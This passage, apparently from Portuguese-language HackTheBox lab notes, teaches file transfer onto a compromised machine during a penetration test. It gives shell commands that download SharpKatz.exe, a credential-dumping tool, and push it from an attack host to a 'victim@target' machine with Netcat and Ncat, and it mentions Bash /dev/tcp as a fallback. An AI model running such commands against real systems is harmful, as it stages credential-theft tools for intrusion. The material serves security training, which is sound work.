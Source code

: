 Ao utilizar Ncat em nosso host de ataque, podemos optar por `--send-only`em vez de `-q`. O sinalizador `--send-only`, quando usado nos modos connect e listen, solicita que o Ncat encerre assim que sua entrada for esgotada.

#### Ncat - Host de ataque - Enviando arquivo para máquina comprometida
```shell-session
NycolasES6@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
NycolasES6@htb[/htb]$ # Example using Ncat
NycolasES6@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Em vez de escutar em nossa máquina comprometida, podemos nos conectar a uma porta em nosso host de ataque para executar a operação de transferência de arquivo. Este método é útil em cenários onde há um firewall bloqueando conexões de entrada.

Vamos escutar na porta 443 em nosso Pwnbox e enviar o arquivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como entrada para o Netcat.

#### Host de Ataque - Enviando Arquivo como Entrada para Netcat
```shell-session
NycolasES6@htb[/htb]$ # Example using Original Netcat
NycolasES6@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Máquina comprometida conecta-se ao Netcat para receber o arquivo
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Vamos fazer o mesmo com o Ncat:

#### Host de Ataque - Enviando Arquivo como Entrada para Ncat
```shell-session
NycolasES6@htb[/htb]$ # Example using Ncat
NycolasES6@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Máquina comprometida conecta-se ao Ncat para receber o arquivo
```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Se não tivermos Netcat ou Ncat em nossa máquina comprometida, o Bash suporta operações de leitura/gravação em um arquivo de pseudodispositivo [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html) .

Escrever neste arquivo específico faz com que o Bash abra uma conexão TCP com `host:port`, e esse recurso pode ser usado para transferências de arquivos.

